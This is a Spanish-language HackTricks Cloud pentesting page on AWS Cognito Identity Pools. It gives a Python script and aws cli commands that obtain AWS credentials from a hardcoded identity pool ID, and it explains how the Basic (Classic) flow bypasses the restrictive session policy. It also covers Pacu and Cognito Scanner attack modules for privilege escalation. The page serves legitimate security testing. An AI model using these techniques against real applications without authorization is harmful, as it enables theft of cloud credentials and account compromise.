 # Cognito Identity Pools

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs exclusivos**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## Información Básica

Con un identity pool, tus usuarios pueden **obtener credenciales temporales de AWS para acceder a servicios de AWS**, como Amazon S3 y DynamoDB. Los identity pools admiten usuarios invitados anónimos, así como los siguientes proveedores de identidad que puedes usar para autenticar usuarios para los identity pools:

* Amazon Cognito user pools
* Inicio de sesión social con Facebook, Google, Login with Amazon y Sign in with Apple
* Proveedores de OpenID Connect (OIDC)
* Proveedores de identidad SAML
* Identidades autenticadas por desarrolladores

### Cognito Sync

Para generar sesiones de Identity Pool, primero necesitas **generar un Identity ID**. Este Identity ID es la **identificación de la sesión de ese usuario**. Estas identificaciones pueden tener hasta 20 datasets que pueden almacenar hasta 1MB de pares clave-valor.

Esto es **útil para mantener información de un usuario** (quien siempre estará usando el mismo Identity ID).

Además, el servicio **cognito-sync** es el servicio que permite **gestionar y sincronizar esta información** (en los datasets, enviando información en streams y mensajes de SNS...).

### Herramientas para pentesting

* [Pacu](https://github.com/RhinoSecurityLabs/pacu), el framework de explotación de AWS, ahora incluye los módulos "cognito\_\_enum" y "cognito\_\_attack" que automatizan la enumeración de todos los activos de Cognito en una cuenta y marcan configuraciones débiles, atributos de usuario utilizados para el control de acceso, etc., y también automatizan la creación de usuarios (incluyendo soporte para MFA) y la escalada de privilegios basada en atributos personalizados modificables, credenciales de identity pool utilizables, roles asumibles en tokens de identidad, etc.

Para una descripción de las funciones de los módulos, consulta la parte 2 del [artículo del blog](https://rhinosecuritylabs.com/aws/attacking-aws-cognito-with-pacu-p2). Para instrucciones de instalación, consulta la página principal de [Pacu](https://github.com/RhinoSecurityLabs/pacu).

#### Uso

Ejemplo de uso de cognito\_\_attack para intentar la creación de usuario y todos los vectores de privesc contra un identity pool y cliente de user pool dado:
```bash
Pacu (new:test) > run cognito__attack --username randomuser --email XX+sdfs2@gmail.com --identity_pools
us-east-2:a06XXXXX-c9XX-4aXX-9a33-9ceXXXXXXXXX --user_pool_clients
59f6tuhfXXXXXXXXXXXXXXXXXX@us-east-2_0aXXXXXXX
```
Uso de ejemplo de cognito\_\_enum para recopilar todos los user pools, user pool clients, identity pools, usuarios, etc. visibles en la cuenta actual de AWS:
```bash
Pacu (new:test) > run cognito__enum
```
* [Cognito Scanner](https://github.com/padok-team/cognito-scanner) es una herramienta CLI en python que implementa diferentes ataques en Cognito incluyendo la creación de cuentas no deseadas y la escalada de privilegios en identity pool.

#### Instalación
```bash
$ pip install cognito-scanner
```
#### Uso
```bash
$ cognito-scanner --help
```
Para más información, consulta https://github.com/padok-team/cognito-scanner

## Accediendo a Roles IAM

### No Autenticado

Lo único que un atacante necesita saber para **obtener credenciales de AWS** en una aplicación Cognito como usuario no autenticado es el **ID del Pool de Identidades**, y este **ID debe estar codificado** en la **aplicación** web/móvil para que pueda usarlo. Un ID se ve así: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (no es susceptible a fuerza bruta).

{% hint style="success" %}
El **rol no autenticado de IAM Cognito creado a través de se llama** por defecto `Cognito_<nombre del Pool de Identidades>Unauth_Role`
{% endhint %}

Si encuentras un ID de Pool de Identidades codificado y permite usuarios no autenticados, puedes obtener credenciales de AWS con:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
O podrías usar los siguientes **comandos de aws cli**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Tenga en cuenta que, por defecto, un usuario de cognito no autenticado **NO PUEDE tener ningún permiso, incluso si se le asignó a través de una política**. Consulte la sección siguiente.
{% endhint %}

### Flujo de autenticación mejorado vs básico

La sección anterior siguió el **flujo de autenticación mejorado predeterminado**. Este flujo establece una [**política de sesión restrictiva**](../../aws-basic-information/#session-policies) para la sesión del rol IAM generada. Esta política solo permitirá que la sesión [**utilice los servicios de esta lista**](https://docs.aws.amazon.com/cognito/latest/developerguide/iam-roles.html#access-policies-scope-down-services) (incluso si el rol tenía acceso a otros servicios).

Sin embargo, hay una manera de evitar esto, si el **Identity pool tiene habilitado "Basic (Classic) Flow"**, el usuario podrá obtener una sesión usando ese flujo que **no tendrá esa política de sesión restrictiva**.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si recibes este **error**, es porque el **flujo básico no está habilitado (por defecto)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Teniendo un conjunto de credenciales IAM, debes verificar [qué acceso tienes](../../#whoami) e intentar [escalar privilegios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Recuerda que los **usuarios autenticados** probablemente tendrán **diferentes permisos**, así que si puedes **registrarte dentro de la aplicación**, intenta hacerlo y obtener las nuevas credenciales.
{% endhint %}

También podría haber **roles** disponibles para **usuarios autenticados que acceden al Identity Pool**.

Para esto, podrías necesitar tener acceso al **proveedor de identidad**. Si es un **Cognito User Pool**, tal vez puedas abusar del comportamiento predeterminado y **crear un nuevo usuario tú mismo**.

{% hint style="success" %}
El **rol autenticado de IAM Cognito creado a través de se llama** por defecto `Cognito_<Identity Pool name>Auth_Role`
{% endhint %}

De todos modos, el **siguiente ejemplo** supone que ya has iniciado sesión dentro de un **Cognito User Pool** utilizado para acceder al Identity Pool (no olvides que otros tipos de proveedores de identidad también podrían estar configurados).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtén el identity_id de la respuesta del comando anterior
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>


# En el IdToken puedes encontrar roles a los que un usuario tiene acceso debido a los Grupos de User Pool
# Usa --custom-role-arn para obtener credenciales para un rol específico
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;YOUR_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
Es posible **configurar diferentes roles IAM dependiendo del proveedor de identidad** con el que el usuario ha iniciado sesión o incluso solo **dependiendo del usuario** (usando claims). Por lo tanto, si tienes acceso a diferentes usuarios a través del mismo o diferentes proveedores, podría **valer la pena iniciar sesión y acceder a los roles IAM de todos ellos**.
{% endhint %}

<details>

<summary><strong>Aprende hacking en AWS de cero a héroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Otras formas de apoyar a HackTricks:

* Si quieres ver a tu **empresa anunciada en HackTricks** o **descargar HackTricks en PDF** consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Consigue el [**merchandising oficial de PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubre [**La Familia PEASS**](https://opensea.io/collection/the-peass-family), nuestra colección de [**NFTs**](https://opensea.io/collection/the-peass-family) exclusivos
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de GitHub** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
